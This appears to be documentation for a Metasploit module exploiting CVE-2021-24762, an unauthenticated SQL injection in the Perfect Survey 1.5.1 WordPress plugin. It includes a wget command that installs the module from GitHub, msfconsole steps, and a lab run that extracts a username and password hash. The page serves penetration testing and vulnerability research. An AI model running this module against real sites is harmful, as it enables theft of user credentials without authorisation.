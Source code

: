 ## Vulnerable Application

Perfect Survey, a WordPress plugin, version 1.5.1 is affected by an unauthenticated SQL injection vulnerability
via the `question_id` parameter.

An unauthenticated attacker can exploit this SQL injection vulnerability to retrieve sensitive information,
such as usernames and password hashes, from the `wp_users` table.

The vulnerable plugin can be downloaded from the [WordPress plugin repository](https://wordpress.org/plugins/).
The specific vulnerable version can be found here: https://www.exploit-db.com/apps/51c80e6262c3a39fa852ebf96ff86b78-perfect-survey.1.5.1.zip

## Verification Steps

1. Install the WordPress application and the vulnerable version of the Perfect Survey plugin.
2. Copy the exploit into the specified Metasploit directory: `wget https://raw.githubusercontent.com/aaryan-11-x/My-Metasploit-Modules/refs/heads/main/CVE-2021-24762%3A%20WordPress%20Plugin%20Perfect%20Survey%201.5.1%20-%20SQLi%20(Unauthenticated)/wp_perfect_survey_sqli.rb -O /usr/share/metasploit-framework/modules/auxiliary/scanner/http/wp_perfect_survey_sqli.rb`.
3. Start `msfconsole`.
4. Run: `use auxiliary/scanner/http/wp_perfect_survey_sqli`.
5. Set the target host: `set RHOSTS [ip]`.
6. Adjust other options as necessary, such as `TARGETURI` (default is `/`).
7. Execute the module: `run`.
8. The module should retrieve usernames and password hashes from the WordPress installation.

## Options

### SHOW_FULL_RESPONSE
If set to `true`, the module will print the entire JSON response received from the server when username and password hash extraction fails.
Default is `false`.

## Scenarios

### WordPress with Perfect Survey Plugin 1.5.1 on Ubuntu 20.04

#### Example

```sh
msf6 > use auxiliary/scanner/http/wp_perfect_survey_sqli
[*] Using auxiliary/scanner/http/wp_perfect_survey_sqli
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RHOSTS 192.168.1.104
RHOSTS => 192.168.1.104
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set RPORT 8000
RPORT => 8000
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > exploit 
[*] Running module against 192.168.1.104

[*] Exploiting SQLi in Perfect Survey plugin...
[+] Received a response from the server!
[+] Extracted Username: aaryan
[+] Extracted Password Hash: $P$BroxbUQTM0N32U7JeMmkXPJrxN9ErZ1
[*] Auxiliary module execution completed
```

#### Video POC
